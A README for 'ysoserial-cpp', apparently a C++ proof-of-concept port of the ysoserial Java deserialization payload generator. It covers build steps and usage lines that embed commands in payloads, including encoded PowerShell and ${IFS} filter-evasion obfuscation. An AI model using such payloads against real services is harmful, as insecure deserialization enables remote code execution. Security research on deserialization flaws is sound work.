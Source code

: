   ```
       ▄█    ▄████████ ███▄▄▄▄   ███▄▄▄▄   ▄██   ▄    ▄█          ▄████████ ▀█████████▄  
      ███   ███    ███ ███▀▀▀██▄ ███▀▀▀██▄ ███   ██▄ ███         ███    ███   ███    ███ 
      ███   ███    █▀  ███   ███ ███   ███ ███▄▄▄███ ███         ███    ███   ███    ███ 
      ███  ▄███▄▄▄     ███   ███ ███   ███ ▀▀▀▀▀▀███ ███         ███    ███  ▄███▄▄▄██▀  
      ███ ▀▀███▀▀▀     ███   ███ ███   ███ ▄██   ███ ███       ▀███████████ ▀▀███▀▀▀██▄  
      ███   ███    █▄  ███   ███ ███   ███ ███   ███ ███         ███    ███   ███    ██▄ 
      ███   ███    ███ ███   ███ ███   ███ ███   ███ ███▌    ▄   ███    ███   ███    ███ 
  █▄ ▄███   ██████████  ▀█   █▀   ▀█   █▀   ▀█████▀  █████▄▄██   ███    █▀  ▄█████████▀  
  ▀▀▀▀▀▀                                             ▀                                   
```



# ysoserial-cpp


![image](https://github.com/user-attachments/assets/da6827fc-b24f-4b6d-8faa-fc99d5a233e5)




## ysoserial-cpp ( PoC )
Implementation of object serializations an weaponizing in cpp similar functionalitity ( a lost day... than yoserial )

GNU GPL3 License ( JennyLab OpenSource )
    

### Build

```
g++ -std=c++17 -O2 -o ysoserial-cpp ysoserial.cpp
```
or

```
mkdir build
cd build
cmake ..
make
```

or

```
make
```


### Payload inject execution commands abusing serialization

```
./ysoserial-cpp templates "cmd /c calc"
```

### Encoding

```
./ysoserial-cpp object1 "powershell -enc <base64_command>"
```
        
### Obfucation 

```
./ysoserial-cpp object2 "p\${IFS}ing\${IFS}8.8.8.8"
```
        
### Inyecting ENV

```
./ysoserial-cpp templates "\$SHELL -c 'whoami'"
```




## Code "ysoserial-cpp.cpp"
```
  ysoserial.cpp   # ysoserial-cpp
  ├── JavaSerialization   # Constants and types
  ├── JavaPayloadGen # Main class to make and object in C++ to serialize this serialization with provide and destination in seralize... Seria... Lize!!!
```                                                           




